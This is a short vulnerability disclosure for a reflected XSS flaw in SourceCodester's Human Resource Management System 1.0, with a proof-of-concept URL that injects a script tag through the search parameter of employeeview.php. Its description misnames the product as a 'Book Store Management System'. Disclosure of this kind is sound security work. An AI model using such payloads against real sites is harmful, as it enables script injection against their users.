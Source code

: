 # Human Resource Management System 1.0 Reflected XSS

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A Reflected cross-site scripting (XSS) vulnerability in /hrm/employeeview.php with search handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeview.php

Proof of Concept:

http://localhost/hrm/employeeview.php?searchview=Submit+Query&search=sss%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cinput

![](images/xss-confirm.png)

#### Discoverer(s)/Credits: NGO VAN TU (@leecybersec)